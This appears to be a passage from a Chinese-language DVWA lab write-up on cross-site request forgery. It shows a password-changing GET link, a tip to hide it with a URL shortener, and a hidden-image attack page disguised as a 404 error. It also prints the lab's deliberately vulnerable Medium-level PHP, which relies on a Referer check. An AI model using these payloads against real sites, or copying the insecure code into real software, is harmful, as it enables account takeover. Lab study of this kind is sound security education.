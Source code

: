 **漏洞利用**

`http://<IP地址!!!>/dvwa/vulnerabilities/csrf/?password_new=password&password_conf=password&Change=Change#`

当受害者点击了这个链接,他的密码就会被改成 password(这种攻击显得有些拙劣,链接一眼就能看出来是改密码的,而且受害者点了链接之后看到这个页面就会知道自己的密码被篡改了)

需要注意的是,CSRF 最关键的是利用受害者的 cookie 向服务器发送伪造请求,所以如果受害者之前用 A 浏览器登录的这个系统,而用 B 浏览器点击这个链接,攻击是不会触发的,因为 B 浏览器并不能利用 Chrome 浏览器的 cookie,所以会自动跳转到登录界面.

有人会说,这个链接也太明显了吧,不会有人点的,没错,所以真正攻击场景下,我们需要对链接做一些处理.

**漏洞利用2**

我们可以使用短链接来隐藏 URL(点击短链接,会自动跳转到真实网站),自寻搜索"短网址工具 "

**漏洞利用3**

可以构造攻击页面,现实攻击场景下,这种方法需要事先在公网上传一个攻击页面,诱骗受害者去访问,真正能够在受害者不知情的情况下完成 CSRF 攻击.这里为了方便演示,就在本地写一个 test.html,下面是具体代码.

```html
<img src="http://<IP地址!!!>/dvwa/vulnerabilities/csrf/?password_new=hack&password_conf=hack&Change=Change#" border="0" style="display:none;"/>

<h1>404<h1>

<h2>file not found.<h2>
```
![](../../../../../assets/img/安全/实验/Web/靶场/dvwa/dvwa13.png)

### Medium

**服务器端核心代码**
```php
<?php

if( isset( $_GET[ 'Change' ] ) ) {
	// Checks to see where the request came from
	if( stripos( $_SERVER[ 'HTTP_REFERER' ] ,$_SERVER[ 'SERVER_NAME' ]) !== false ) {
		// Get input
		$pass_new  = $_GET[ 'password_new' ];
		$pass_conf = $_GET[ 'password_conf' ];

		// Do the passwords match?
		if( $pass_new == $pass_conf ) {
			// They do!
			$pass_new = ((isset($GLOBALS["___mysqli_ston"]) && is_object($GLOBALS["___mysqli_ston"])) ? mysqli_real_escape_string($GLOBALS["___mysqli_ston"],  $pass_new ) : ((trigger_error("[MySQLConverterToo] Fix the mysql_escape_string() call! This code does not work.", E_USER_ERROR)) ? "" : ""));
			$pass_new = md5( $pass_new );

			// Update the database
			$insert = "UPDATE `users` SET password = '$pass_new' WHERE user = '" . dvwaCurrentUser() . "';";
			$result = mysqli_query($GLOBALS["___mysqli_ston"],  $insert ) or die( '<pre>' . ((is_object($GLOBALS["___mysqli_ston"])) ? mysqli_error($GLOBALS["___mysqli_ston"]) : (($___mysqli_res = mysqli_connect_error()) ? $___mysqli_res : false)) . '</pre>' );

			// Feedback for the user
			$html .= "<pre>Password Changed.</pre>";
		}
		else {
			// Issue with passwords matching
			$html .= "<pre>Passwords did not match.</pre>";
		}
	}
```